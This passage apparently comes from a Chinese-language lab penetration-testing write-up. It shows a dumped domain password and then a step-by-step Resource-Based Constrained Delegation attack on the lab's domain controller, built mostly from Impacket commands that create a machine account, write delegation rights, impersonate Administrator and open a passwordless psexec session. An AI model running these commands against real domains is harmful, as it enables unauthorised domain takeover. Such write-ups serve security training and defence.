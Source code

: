 ```bash
     * Domain   : XIAORANG.LAB
     * Password : Xt61f3LBhg1
    ssp :   
    credman :
```

### 渗透 RBCD

我们需要去分析，发现用户`chenglei`属于`ACL Admin组`  
注：`ACL Admins 组`对 `WIN-DC`具有 `WriteDacl` 权限，那么可以直接写 `DCSync` / `RBCD` / `Shadow Credentials`  
`RBCD`流程如下

> proxychains addcomputer.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -dc-host xiaorang.lab -computer-name 'TEST$' -computer-pass 'P@ssw0rd'  
> proxychains rbcd.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -action write -delegate-to 'WIN-DC$' -delegate-from 'TEST$'  
> proxychains getST.py xiaorang.lab/'TEST$':'P@ssw0rd' -spn cifs/WIN-DC.xiaorang.lab -impersonate Administrator -dc-ip 172.22.13.6  
> export KRB5CCNAME=Administrator.ccache  
> 添加 host 地址

[![](assets/1709193375-02788e6aff9aa2cdea9c0583e910cd74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205232-12a3e50c-d56f-1.png)

> 最终无密码连接  
> proxychains psexec.py Administrator@WIN-DC.xiaorang.lab -k -no-pass -dc-ip 172.22.13.6

[![](assets/1709193375-c6a3ed288f4847220d7218daa9fcf294.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205237-15bd0d36-d56f-1.png)

